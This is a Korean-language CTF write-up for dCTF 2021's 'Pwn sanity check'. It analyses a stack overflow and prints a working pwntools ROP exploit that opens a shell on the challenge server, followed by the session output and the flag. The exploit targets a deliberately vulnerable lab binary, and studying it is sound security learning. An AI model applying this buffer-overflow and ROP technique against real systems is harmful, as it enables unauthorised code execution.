





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[pwn_sanity_check.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20dCTF/Pwn%20sanity%20check/file/pwn_sanity_check.zip)


# **Write-Up**

main을 확인해보면 0x4007A4에 vuln이라는 함수를 호출한다.



vuln함수는 rax에 rbp+s(-0x40)만큼 공간을 확보하고 0x100만큼 문자를 받아들여 overflow가 터진다.

0x40075C에서 rbp+var_4(-0x04)의 값과 0xDEADC0DE와 비교하는 조건문이 있고, 일치한다면 0x400776의 shell이라는 함수를 호출한다.



하지만 shell함수로 따라 들어가면 flag를 획득할 만한 무엇인가가 없다.



0x400697에서 /bin/sh을 넣어 system함수를 콜하는 부분이 있고, edi, esi값을 rbp+var_4(-0x04), rbp+var_8(-0x08)에 넣고, 이를 0xDEADBEEF와 0x1337C0DE와 비교하여 일치하여야 한다.



ROP기법을 사용하여 exploit코드를 작성하면 다음과 같다.

```py
from pwn import *
context(arch='amd64')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

#p = process('./pwn_sanity_check')
e = ELF('./pwn_sanity_check', checksec=False)
r = ROP(e)

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_esi = 0x00400811

payload = b''
payload += b'\x00'*(0x40 + 0x08)
payload += p64(pop_rdi)
payload += p64(0xDEADBEEF)
payload += p64(pop_esi)
payload += p64(0x1337C0DE)
payload += b'\x00'*0x08
payload += p64(0x400697)

p.recvuntil('joke')
p.sendline(payload)
p.interactive()

[Output]
root@ubuntu:~# [+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Loaded 14 cached gadgets for './pwn_sanity_check'
[*] Switching to interactive mode

will this work?
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ ls -al
total 32
drwxr-xr-x 1 root  root  4096 May 14 01:20 .
drwxr-xr-x 1 root  root  4096 May 14 01:21 ..
-rw-r--r-- 1 root  root    19 May 14 01:20 flag.txt
-rwxr-xr-x 1 pilot pilot 8632 May 14 01:20 pwn_sanity_check
-rw-r--r-- 1 root  root   226 May 14 01:20 startService.sh
################ startService.sh ################
#!/bin/bash
chown pilot:pilot /app/pwn_sanity_check
chmod +x /app/pwn_sanity_check
while true; do
    su pilot -c 'timeout -k 30s 1d socat TCP-LISTEN:7480,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pwn_sanity_check"'
done
################################################
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```


# **FLAG**

**dctf{Ju5t_m0v3_0n}**